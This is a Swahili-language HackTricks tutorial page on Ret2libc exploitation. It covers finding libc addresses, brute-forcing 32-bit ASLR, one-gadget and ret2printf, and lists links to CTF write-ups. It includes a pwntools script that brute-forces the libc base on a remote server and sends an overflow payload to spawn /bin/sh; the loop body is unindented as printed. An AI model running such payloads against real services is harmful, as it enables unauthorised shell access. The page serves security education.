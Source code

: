 # Ret2lib

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## **Maelezo Msingi**

Esensi ya **Ret2Libc** ni kurekebisha mtiririko wa utekelezaji wa programu yenye kasoro kwa kazi ndani ya maktaba iliyoshirikiwa (k.m., **system**, **execve**, **strcpy**) badala ya kutekeleza shellcode iliyotolewa na mkalimani kwenye rundo. Mshambuliaji hupanga mzigo wa data ambao hubadilisha anwani ya kurudi kwenye rundo ili ielekeze kwenye kazi ya maktaba inayotakiwa, huku pia akifanya mipango ya kuweka vigezo vyovyote vinavyohitajika kulingana na mkataba wa kuita.

### **Hatua za Mfano (zilizorahisishwa)**

* Pata anwani ya kazi ya kupiga simu (k.m. system) na amri ya kupiga simu (k.m. /bin/sh)
* Unda mnyororo wa ROP ili kupitisha hoja ya kwanza ikionyesha kwenye mfuatano wa amri na mtiririko wa utekelezaji kwa kazi

## Kupata anwani

* Kudhani kwamba `libc` inayotumiwa ni ile kutoka kwenye mashine ya sasa unaweza kupata mahali itakapoloadiwa kumbukani na:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ikiwa unataka kujua ikiwa ASLR inabadilisha anwani ya libc unaweza kufanya:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kwa kujua libc iliyotumiwa pia ni rahisi kupata kisawe cha kazi ya `system` kwa:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kujua libc iliyotumiwa pia ni rahisi kupata kisawe cha kazi ya string `/bin/sh` na:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Kutumia gdb-peda / GEF

Kwa kujua libc iliyotumiwa, Pia ni rahisi kutumia Peda au GEF kupata anwani ya kazi ya **system**, ya kazi ya **exit** na ya string **`/bin/sh`**:
```bash
p system
p exit
find "/bin/sh"
```
### Kutumia /proc/\<PID>/maps

Ikiwa mchakato unazalisha **watoto** kila wakati unapozungumza naye (mtandao wa seva) jaribu **kusoma** faili hiyo (labda utahitaji kuwa na ruhusa ya mizizi).

Hapa unaweza kupata **mahali hasa ambapo libc imepakia** ndani ya mchakato na **mahali itakapopakiwa** kwa kila mtoto wa mchakato.

![](<../../../.gitbook/assets/image (853).png>)

Katika kesi hii imepakia katika **0xb75dc000** (Hii itakuwa anwani ya msingi ya libc)

## Libc isiyojulikana

Inaweza kuwa inawezekana kwamba **hujui libc ambayo binary inapakia** (kwa sababu inaweza kuwa mahali ambapo huna ufikiaji wowote). Katika kesi hiyo unaweza kutumia udhaifu wa **kuvuja anwani na kupata ni libc** ipi inayotumiwa:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Na unaweza kupata kiolezo cha pwntools kwa hili katika:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### Jua libc na 2 offsets

Angalia ukurasa [https://libc.blukat.me/](https://libc.blukat.me/) na tumia **anwani kadhaa** za kazi ndani ya libc ili kugundua **toleo lililotumiwa**.

## Kupita ASLR katika biti 32

Mashambulizi haya ya kufanya nguvu ni **yenye manufaa kwa mifumo ya biti 32 tu**.

* Ikiwa shambulio ni la ndani, unaweza kujaribu kufanya nguvu ya anwani ya msingi ya libc (yenye manufaa kwa mifumo ya biti 32):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Kama unashambulia seva ya mbali, unaweza kujaribu **kubaini kwa nguvu anwani ya kazi ya `libc` `usleep`**, ukitoa kama hoja 10 (kwa mfano). Ikiwa kwa wakati fulani **seva inachukua sekunde 10 zaidi kujibu**, umepata anwani ya kazi hii.

## Gadget Moja

Tekeleza kabati kwa kuruka kwa **anwani** moja maalum **tu** katika libc:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## Mfano wa Msimbo wa x86 Ret2lib

Katika mfano huu, ASLR brute-force imejumuishwa katika msimbo na faili ya binary yenye kasoro iko kwenye seva ya mbali:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## Mfano wa Msimbo wa x64 Ret2lib

Angalia mfano kutoka:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Mfano wa ARM64 Ret2lib

Katika kesi ya ARM64, maagizo ya `ret` hupanda mahali ambapo usajili wa x30 unaelekeza na sio mahali ambapo usajili wa stakini unaelekeza. Kwa hivyo ni kidogo ngumu zaidi.

Pia katika ARM64 maagizo hufanya kile ambacho maagizo yanafanya (haipatikani kuruka katikati ya maagizo na kubadilisha kuwa mengine mapya).

Angalia mfano kutoka:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## Ret-into-printf (au puts)

Hii inaruhusu **kuvuja kwa habari kutoka kwa mchakato** kwa kuita `printf`/`puts` na baadhi ya data maalum iliyowekwa kama hoja. Kwa mfano kuweka anwani ya `puts` katika GOT katika utekelezaji wa `puts` kutavuja anwani ya `puts` kwenye kumbukumbu.

## Ret2printf

Hii kimsingi inamaanisha kutumia **Ret2lib kubadilisha kuwa `printf` format strings vulnerability** kwa kutumia `ret2lib` kuita printf na thamani za kutumia (inaonekana haina maana lakini inawezekana):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Mifano Mingine & Marejeo

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, ikitoa uvujaji wa anwani ya kazi katika libc, kutumia kifaa cha moja
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* Biti 64, ASLR imewezeshwa lakini hakuna PIE, hatua ya kwanza ni kujaza kujaza hadi baiti 0x00 ya canary kisha kuita puts na kuvuja. Kwa canary, kifaa cha ROP kinajengwa kuita puts kuvuja anwani ya puts kutoka GOT na kifaa cha ROP kuita `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* Biti 64, ASLR imewezeshwa, hakuna canary, kujaza stakini katika main kutoka kwa kazi ya mtoto. Kifaa cha ROP kuita puts kuvuja anwani ya puts kutoka GOT na kisha kuita kifaa cha moja.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* Biti 64, hakuna PIE, hakuna canary, hakuna relro, nx. Inatumia kazi ya kuandika kuvuja anwani ya kuandika (libc) na kuita kifaa cha moja.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Inatumia string ya muundo kuvuja kwa canary kutoka kwa stakini na kujaza kijaza kufikia mfumo (iko kwenye GOT) na anwani ya `/bin/sh`.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* Biti 32, hakuna relro, hakuna canary, nx, pie. Kutumia indexing mbaya kuvuja anwani za libc na heap kutoka kwa stakini. Kutumia kujaza kijaza kufanya ret2lib kuita `system('/bin/sh')` (anwani ya heap inahitajika kuzidi ukaguzi).
